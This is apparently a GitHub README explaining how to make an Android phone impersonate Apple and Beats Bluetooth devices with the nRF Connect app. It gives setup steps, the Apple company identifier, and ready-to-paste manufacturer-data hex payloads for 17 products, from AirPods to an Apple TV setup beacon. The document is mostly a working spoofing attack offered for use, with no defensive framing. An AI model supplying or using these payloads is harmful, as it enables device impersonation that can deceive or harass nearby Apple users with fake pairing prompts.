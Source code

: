 # Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise

# Plese Follow Below Steps & Instructions To Do this Propper

First of all you need to download nRF Connected App Use below link to download it
https://www.nordicsemi.com/Products/Development-tools/nrf-connect-for-mobile

- After downloaded that apk then you need to install it.
- After opening the app and giving the relevant permission, you can see an interface like this....
  
  ![20231008_224809](20231008_224809.gif)


- Now enable Bluetooth adapter and click the Advertiser secter.
- Now click the  +  icon at the down of the right hand corner.
- Type anything for Display name section
- Now click ADD RECORD & Select Manufacturer Data.
- Put 004C to Company Identifier.
- Now you need to put PayloadCodes to Hex Data  section & Hit enter.

  Every payload code is down there, all they have to do is copy the payload code of the device they want to spoof and put it in the place called Hex Data.

1.Airpods

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x02, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

2.AirpodsPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0e, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

3.AirpodsMax

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0a, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

4.dataAirpodsGen3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x13, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

5.AirpodsProGen2

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x14, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

6.PowerBeats

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x03, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

7.PowerBeatsPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0b, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

8.BeatsSoloPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0c, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

9.BeatsStudioBuds

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x11, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

10.dataBeatsFlex

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x10, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

11.BeatsX

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x05, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

12.BeatsSolo3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x06, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

13.BeatsStudio3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x09, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

14.BeatsStudioPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x17, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

15.BeatsFitPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x12, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

16.BeatsStudioBudsPlus

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x16, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

17.AppleTVSetup

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x01, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````




  
